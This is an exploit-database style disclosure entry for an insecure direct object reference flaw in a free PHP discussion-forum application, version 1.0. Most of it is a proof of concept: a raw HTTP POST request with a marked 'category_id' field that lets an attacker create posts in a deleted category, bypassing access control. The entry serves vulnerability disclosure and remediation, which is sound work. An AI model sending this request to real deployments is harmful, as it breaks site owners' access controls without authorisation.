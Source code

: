 # Exploit Title: Online-discussion-forum-site v1.0 - Insecure Direct Object Reference(IDOR)
## Date: 2/1/2024
## Vendor Homepage: https://www.sourcecodester.com/php/15337/online-discussion-forum-site-phpoop-free-source-code.html
## Tested on: Debian Linux, Apache, Mysql
## Vendor: oretnom23
## Version: v1.0
## Exploit Description:
## Online-discussion-forum-site v1.0 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to create post in category that is deleted(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /odfs/classes/Master.php?f=save_post HTTP/1.1
...

------WebKitFormBoundaryKDuEtJHjHqr7AMTC
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryKDuEtJHjHqr7AMTC
Content-Disposition: form-data; name="title"

aaaa
------WebKitFormBoundaryKDuEtJHjHqr7AMTC
Content-Disposition: form-data; name="category_id"

1(CHANGE HERE)
------WebKitFormBoundaryKDuEtJHjHqr7AMTC
Content-Disposition: form-data; name="content"

<p>aaaa</p>
------WebKitFormBoundaryKDuEtJHjHqr7AMTC
Content-Disposition: form-data; name="files"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryKDuEtJHjHqr7AMTC--

```